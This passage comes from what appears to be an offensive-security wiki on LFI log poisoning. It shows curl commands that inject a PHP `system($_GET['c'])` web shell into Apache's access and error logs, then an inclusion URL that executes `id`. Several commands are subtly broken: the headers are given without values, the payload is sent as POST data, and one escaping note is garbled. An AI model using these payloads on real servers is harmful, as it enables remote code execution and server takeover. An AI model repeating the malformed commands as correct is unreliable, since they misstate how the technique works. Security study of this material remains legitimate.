 {{<hint info>}}
It is recommended to first load the target log,
not only to verify the access
but to identify what data is being stored.

Administrators can modify the logged data
according to their needs.
{{</hint>}}

### Apache

By default,
Apache maintains access and error logs.
The `error` log,
commonly,
register the `Referer` header,
while the `acccess` log,
the `User-Agent`.
[^apache-log]

#### Access Log
Make a valid request
with the code in the `User-Agent` header.

```sh
curl -H 'User-Agent' --data "<?php system($_GET['c']); ?>" "http://{{< param "war.rdomain" >}}" -v
```
#### Error Log
Make an invalid request,
an invalid inclusion for example,
with the suitable `Referer` header.

```sh
curl -H 'Referer' --data "<?php system($_GET['c']); ?>" "http://{{< param "war.rdomain" >}}/invalid#req" -v
```

{{<hint warning>}}
The Apache logging API
escapes strings going to the logs.

Use single quotes (`'`)
since double quotes (`"`) are replaced escaped as `"quote";`
{{</hint>}}

#### LFI

```txt
http://{{< param "war.rdomain" >}}/index.php?page=/path/to/access.log&c=id
```

#### Common Apache Log Paths

Log files can also be set to custom locations,
either globally,
or domain based if virtual hosting is enabled.


[^owasp-path-traversal]: “Path Traversal - OWASP.” OWASP, https://wiki.owasp.org/index.php/Path_Traversal.
[^wiki-file-inclusion]: Contributors to Wikimedia projects. “File Inclusion Vulnerability - Wikipedia.” Wikipedia, the Free Encyclopedia, Wikimedia Foundation, Inc., 24 Nov. 2006, https://en.wikipedia.org/wiki/File_inclusion_vulnerability.
[^swissky-dt]: swisskyrepo. “PayloadsAllTheThings / Directory Traversal.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal.
[^unc-share]: “CWE-40: Path Traversal: ‘\\UNC\share\name\’ (Windows UNC Share) (4.1).” CWE -  Common Weakness Enumeration, https://cwe.mitre.org/data/definitions/40.html.
[^data-scheme]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^apache-log]: “Log Files - Apache HTTP Server Version 2.4.” Welcome! - The Apache HTTP Server Project, https://httpd.apache.org/docs/2.4/logs.html.
[^php-wrappers]: “PHP: Supported Protocols and Wrappers - Manual.” PHP: Hypertext Preprocessor, https://www.php.net/manual/en/wrappers.php.
[^ietf-rfc2397]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^kernel-proc]: “The /Proc Filesystem.” The Linux Kernel  Documentation, https://www.kernel.org/doc/html/latest/filesystems/proc.html.
[^route-lookup]: Bernat, Vincent. “IPv4 Route Lookup on Linux ⁕ Vincent Bernat.” MTU Ninja Vincent Bernat, https://vincent.bernat.ch/en/blog/2017-ipv4-route-lookup-linux.
[^linux-man-proc]: “Proc(5) - Linux Manual Page.” Michael Kerrisk - Man7.Org, https://man7.org/linux/man-pages/man5/proc.5.html.
[^ush-lfi2rce]: “LFI2RCE (Local File Inclusion to Remote Code Execution) Advanced Exploitation: /Proc Shortcuts.” Ush.It - a Beautiful Place, https://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/.